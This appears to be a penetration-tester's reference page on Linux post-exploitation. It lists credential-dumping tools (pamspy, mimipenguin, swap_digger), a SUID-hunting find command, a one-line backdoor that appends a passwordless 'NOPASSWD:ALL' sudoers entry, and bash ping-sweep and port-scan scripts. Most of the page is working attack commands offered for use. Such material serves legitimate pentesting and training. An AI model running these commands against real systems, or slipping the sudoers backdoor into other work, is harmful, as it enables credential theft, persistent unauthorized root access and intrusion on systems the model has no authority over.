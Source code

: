 ```yaml
---
description: Post Exploitation on Linux
---
```


# Linux Post Exploitation

### Common Tools

* [**GTFOBins**](https://gtfobins.github.io/) **-** GTFOBins is a curated list of Unix binaries that can be used to bypass local security restrictions in misconfigured systems.
* [**LinPEAS**](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS) **-** Linux local Privilege Escalation Awesome Script (linPEAS) is a script that search for possible paths to escalate privileges on Linux/Unix.
* [**pspy**](https://github.com/DominicBreuker/pspy) - Monitor linux processes without root permissions
* [**pamspy**](https://github.com/citronneur/pamspy) - Credentials Dumper for Linux

### **SUID**

Although SUID binaries can be detected using LinPEAS, you can also run the following command to identify SUID files on the system.

```bash
find / -perm -u=s -type f 2>/dev/null
```

### swap\_digger

swap\_digger is a bash script used to automate Linux swap analysis for post-exploitation or forensics purpose. It automates swap extraction and searches for Linux user credentials, Web form credentials, Web form emails, HTTP basic authentication, WiFi SSID and keys, etc.

{% code overflow="wrap" %}
```bash
git clone https://github.com/sevagas/swap_digger.git
cd swap_digger
chmod +x swap_digger.sh
sudo ./swap_digger.sh -vx
```
{% endcode %}

### mimipenguin

A tool to dump the login password from the current linux user.

* [https://github.com/huntergregal/mimipenguin](https://github.com/huntergregal/mimipenguin)

### Add User as Passwordless Sudo

{% code overflow="wrap" %}
```bash
echo 'asuka    ALL=(ALL) NOPASSWD:ALL' | tee -a /etc/sudoers
```
{% endcode %}

### Ping Sweep with Bash

**sweep.sh**

{% code overflow="wrap" %}
```bash
#!/bin/bash

is_alive_ping()
{
  ping -c 1 $1 > /dev/null
  [ $? -eq 0 ] && echo  $i is up.
}

for i in 192.168.1.{1..255} 
do
is_alive_ping $i & disown
done
```
{% endcode %}

### Port Scan with Bash

**port\_scan\_with\_nc.sh**

{% code overflow="wrap" %}
```bash
#!/bin/bash

if [ "$#" -ne 2 ]; then
    echo "Usage: $0 <target_host> <start_port>-<end_port>"
    exit 1
fi

target_host=$1
port_range=$2
process_limit=200  # Set the maximum number of parallel processes

# Split start and end port
IFS='-' read -ra ports <<< "$port_range"
start_port="${ports[0]}"
end_port="${ports[1]}"

echo "Scanning ports $start_port to $end_port on $target_host..."

# Function to perform port scan for a single port
perform_scan() {
    local port=$1
    local result
    result=$(nc -zv -w 1 $target_host $port 2>&1)
    if [[ $result == *open* ]]; then
        echo "$result" | grep -Eo "\[[^]]+\] [0-9]+ \(.+\) open"
    fi
}

# Loop through the port range and start background scans
for ((port = start_port; port <= end_port; port++)); do
    perform_scan "$port" &
    
    # Limit the number of parallel processes
    while [[ "$(jobs | wc -l)" -ge "$process_limit" ]]; do
        wait -n
    done
done

# Wait for remaining background processes to finish
wait
```
{% endcode %}

port\_scan.sh

{% code overflow="wrap" %}
```bash
#!/bin/bash

if [ "$1" == "" ]
then
    echo
    echo This script scans TCP opened ports on IP or hostname
    echo Usage : portscan.sh \<ip-or-hostname\> \[start-port\] \[end-port\]
    echo start-port equals to 1 by default
    echo end-port equals 1024 by default
    echo
    exit
fi

START_PORT=${2:-1}
END_PORT=${3:-1024}
echo "Scanning $1 (ports $START_PORT to $END_PORT)"

PORT_PROTOCOL="tcp"

scan_port(){
    PORT_NUMBER=$1
    PORT_SCAN_RESULT=`2>&1 echo "" > /dev/$PORT_PROTOCOL/$TARGET_NAME_OR_IP/$PORT_NUMBER | grep connect`
    [ "$PORT_SCAN_RESULT" == "" ] && echo $PORT_NUMBER\/$PORT_PROTOCOL'	'open'	'`grep $PORT_NUMBER/$PROTOCOL /etc/services | head -n1 | awk '{print $1}'`
}

TARGET_NAME_OR_IP=$1
echo 'PORT	STATE	SERVICE'

for PORT_NUMBER in `seq $START_PORT $END_PORT`
do
    scan_port $PORT_NUMBER
done

```
{% endcode %}

{% hint style="info" %}
**Note**: This page is incomplete and will be regularly updated. If you have any ideas or resources that need to be added, please contact me at [yuyudhn@gmail.com](mailto:yuyudhn@gmail.com).
{% endhint %}

